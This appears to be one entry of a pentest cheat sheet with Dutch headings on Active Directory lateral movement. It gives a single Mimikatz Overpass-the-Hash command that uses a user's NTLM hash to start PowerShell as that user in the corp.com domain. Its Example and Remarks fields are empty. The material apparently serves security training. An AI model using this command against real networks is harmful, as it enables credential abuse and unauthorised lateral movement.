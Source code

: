 # 24. AD Lateral Movement — Entry 26

## Categorie

Overpass-the-Hash

## Commando

```
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

## Omschrijving

```
Creating a PowerShell process with different user's ntlm password hash
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

